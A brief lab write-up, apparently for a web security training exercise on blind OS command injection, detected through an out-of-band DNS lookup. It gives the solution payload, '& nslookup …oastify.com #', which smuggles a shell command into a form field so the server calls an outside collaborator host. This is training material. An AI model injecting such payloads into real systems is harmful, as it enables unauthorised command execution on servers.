 ## Blind OS command injection with out-of-band interaction
Vuln:  executes a shell command containing the user-supplied details
    -asynchronus
    -issue a DNS lookup to Burp Collaborator.
Soln:
& nslookup 2uxesrnshp02ri17pclzzswrwi29qzeo.oastify.com #